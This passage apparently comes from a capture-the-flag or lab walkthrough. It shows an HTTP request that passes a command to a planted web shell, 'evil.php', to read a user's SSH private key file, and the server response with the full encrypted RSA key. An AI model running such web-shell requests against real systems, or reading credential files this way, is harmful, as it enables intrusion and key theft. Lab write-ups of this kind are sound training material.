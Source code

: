 ### `mowree` `ssh` key request
```http
GET /secret/evil.php?command=/home/mowree/.ssh/id_rsa HTTP/1.1
Host: 192.168.76.212
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### `mowree` `ssh` key response
```http
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 19:13:23 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 1743
Connection: close
Content-Type: text/html; charset=UTF-8

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```
